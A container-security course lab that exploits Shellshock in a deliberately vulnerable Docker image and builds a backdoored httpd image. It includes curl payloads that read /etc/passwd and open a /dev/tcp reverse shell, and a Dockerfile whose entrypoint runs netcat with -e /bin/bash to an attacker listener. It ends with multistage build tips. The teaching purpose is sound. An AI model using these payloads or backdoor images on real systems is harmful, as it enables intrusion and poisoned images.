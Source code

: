 Objective: Understand how vulnerable images can be dangerous when they are used in Docker/Kubernetes environment. 
#### Exploiting vulnerable images
* These vulnerabilities can potentially provide an attacker foothold on your containers and the hosts
where Docker is being run. 
* Create a directory and navigate into that. 
```bash
mkdir ~/shellshock; cd ~/shellshock
```
* To demonstrate this let's pull a vulnerable image from Docker Hub and
see how it can be exploited.
* Using docker run, you are going to use the image which is tagged as ​vulnerables/cve-2014-6271 which is
basically a CVE identifier for shellshock vulnerability.
```bash
docker run -itd --name shellshock-container  -p 8080:80 vulnerables/cve-2014-6271
```
* List the running containers
```bash
docker ps
CONTAINER ID   IMAGE                       COMMAND              CREATED          STATUS          PORTS                                   NAMES
04c89bd62301   vulnerables/cve-2014-6271   "/main.sh default"   20 seconds ago   Up 19 seconds   0.0.0.0:8080->80/tcp, :::8080->80/tcp   shellshock-container
```
* Check the webserver inside the container is running 
```bash
curl http://localhost:8080

<html>
    <head><title>Vulnerables | ShellShock</title></head>
    <body>
        <h1>This image is vulnerable to ShellShock, please exploit it</h1>
        <pre>The script is at /cgi-bin/vulnerable</pre>
    </body>
</html>
```
* From the output, you can see that the application is up and running so we can now try to
exploit it.
* Use the following payload that is already given by the author of this docker image. This payload is
going to display the contents of the ​/etc/passwd file when run against a web server vulnerable to
shellshock. Let us execute the following payload in a new terminal window.
```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://localhost:8080/cgi-bin/vulnerable

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
```
* Login into the container
```bash
docker exec -it 04c bash

root@04c89bd62301:/# 
```
* In the container's bash terminal run the modified the payload to get a reverse shell instead of reading the file contents. Let's
run the following command and try to get a reverse shell.
```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'" http://localhost:8080/cgi-bin/vulnerable
```
--------------
#### Backdooring existing Docker images
* Attackers can create malicious images, or they can infect existing legitimate images and
re-upload them into a place like Docker Hub.
* Create a directory 'backdoor' and navigate into that
```bash
mkdir ~/backdoor; cd ~/backdoor
```
* Create a Dockerfile to modify the existing image. This Dockerfile will install the backdoor.
```bash
FROM httpd:latest
RUN apt-get update && apt-get install screen netcat-traditional -y
ENTRYPOINT screen -d -m /bin/nc.traditional 172.17.0.1 4444 -e /bin/bash && httpd-foreground
```
* Create a backdoor image using the dockerfile.
```bash
docker build -t backdoor .
```
* In terminal 2 Start the nc command 
```bash
nc -v -k -l 172.17.0.1 4444

Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on 172.17.0.1:4444
```
* In terminal 1 start a container using the backdoor image
```bash
docker run -itd --name bcontainer1 -p 8080:80 backdoor

8007aaf47336c4118e2e0b837a7854ccfdf8f899ef5bb966296e77044d4dc29a
```
* List the running containers
```bash
docker ps

CONTAINER ID   IMAGE      COMMAND                  CREATED         STATUS         PORTS                                   NAMES
8007aaf47336   backdoor   "/bin/sh -c 'screen …"   3 seconds ago   Up 2 seconds   0.0.0.0:8080->80/tcp, :::8080->80/tcp   bcontainer
```
* Move to terminal 2 and verify the Backdoor Connection. When the Docker container runs, it should connect back to your attacker machine, giving you a shell on the container.
```bash
nc -v -k -l 172.17.0.1 4444
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on 172.17.0.1:4444
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:58278.

cat /etc/os-release
PRETTY_NAME="Debian GNU/Linux 12 (bookworm)"
NAME="Debian GNU/Linux"
VERSION_ID="12"
VERSION="12 (bookworm)"
VERSION_CODENAME=bookworm
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
```
* Once you have completed your testing or educational exercise, make sure to remove the backdoored image and any containers created to prevent any unintentional misuse.

#### Best practices for building containers 
#### Build the smallest image possible
* Clone the following repo
```bash
git clone https://github.com/blrk/multistage-build-flask.git
```
* Nagivate into the cloned repo
```bash
cd multistage-build-flask/
```
* Verify the contents of Dockerfile, app.py, requirements.txt, and index.html
* Build container image uisng the pre configured Dockerfile
```bash
docker build -t pyapp:1.0 .
```
* Start a container
```bash
docker run -itd -p 5000:5000 pyapp:1.0
```
* Access the app
```bash
curl http://localhost:5000

<!DOCTYPE html>
<html>
<head>
    <title>Flask App</title>
</head>
<body>
    <h1>Hello from Flask! Welcome to Container security Course</h1>
</body>
</html>
```